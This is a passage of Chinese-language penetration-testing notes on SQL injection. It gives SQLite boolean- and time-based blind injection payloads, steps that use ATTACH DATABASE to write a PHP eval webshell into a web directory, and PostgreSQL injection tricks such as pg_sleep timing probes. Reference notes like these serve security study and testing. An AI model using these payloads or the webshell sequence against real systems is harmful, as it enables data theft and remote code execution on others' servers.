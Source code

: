 布尔盲注通过查询正确和错误返回的页面不同来判断数据内容。

SQLite不支持ascii，所以直接通过字符去查询，这里和mysql不同，这个区分大小写。也没有mid,left等函数。

```sql
-1' or substr((select group_concat(sql) from sqlite_master),1,1)<'a'/*
```

**时间盲注**

SQLite没有sleep()函数，但可以用randomblob(N)函数，randomblob(N) 函数，其作用是返回一个 N 字节长的包含伪随机字节的 BLOG。N 是正整数。可以用它来制造延时。SQLite没有if，所以需要使用case……when来代替。

```
-1' or (case when(substr(sqlite_version(),1,1)>'3') then randomblob(300000000) else 0 end)/*
```

**写 webshell**

SQLite 的 ATTACH DATABASE 语句是用来选择一个特定的数据库，使用该命令后，所有的 SQLite 语句将在附加的数据库下执行。
```
ATTACH DATABASE file_name AS database_name;
```

如果附加数据库不存在，就会创建该数据库，如果数据库文件设置在web目录下，就可以写入webshell。
```
ATTACH DATABASE '/var/www/html/shell.php' AS shell;
create TABLE shell.exp (webshell text);
insert INTO shell.exp (webshell) VALUES ('<?php eval($_POST[a]);?>');
```

---

## Postgresql

**相关文章**
- [SQL注入渗透PostgreSQL(bypass tricks)](https://xz.aliyun.com/t/8621)

### Postgresql 基础

- [Postgresql](../../../../Integrated/数据库/笔记/Postgresql.md)

**忽略**
```sql
SELECT 'admin' FROM users;
SELECT 'admin' OR 1 = 1; -- -' FROM users;
```

**||**

`||` 可用于将数据附加到同一行的输出中
```sql
SELECT ''||password FROM users; -- -';
```

**通过延时判断是否是 Postgresql 数据库的方法**

SELECT
```sql
-- 如果参数是整数：
pg_sleep(20); -- -

-- 如果参数是字符串：
'||pg_sleep(20); -- -
```
